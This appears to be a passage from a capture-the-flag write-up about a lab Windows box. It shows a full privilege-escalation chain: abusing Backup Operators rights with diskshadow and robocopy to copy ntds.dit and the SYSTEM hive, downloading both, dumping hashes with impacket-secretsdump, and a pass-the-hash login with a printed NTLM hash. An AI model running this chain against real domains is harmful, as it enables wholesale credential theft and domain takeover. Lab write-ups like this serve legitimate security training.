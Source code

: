 
## Emily
Connecting via evil-winrm, checking our privileges, we find that Emily can perform actions from the backup operator group. This allows us as an attacker to create a copy of the C:\ drive, copying the system and NTDS to our directory, download it and reveal the administrator hash offline which will then be used in a pass-the-hash attack.
![capture-11](capture-11.PNG)
```
[1] create dsh file file.dsh
set context persistent nowriters
add volume c: alias ez
create
expose %ez% z:

[2] fix file format
unix2dos file.dsh

[3] Run file with diskshadow
diskshadow /s black.dsh

[4] Copy ntds
robocopy /b z:/windows/ntds . ntds.dit

[5] save system
reg save hklm\system system

[6] Download both files
*Evil-WinRM* PS C:\Temp> download ntds.dit                                    
*Evil-WinRM* PS C:\Temp> download system

[7] Use impacket-secretsdump
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

After downloading the NTDS and system, we can use impacket-secretsdump to reveal the administrator hash and perform a pass-the-hash attack to gain the root password.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ evil-winrm -i 10.129.150.50 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
49430e58274565701bb376eda38570c0
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```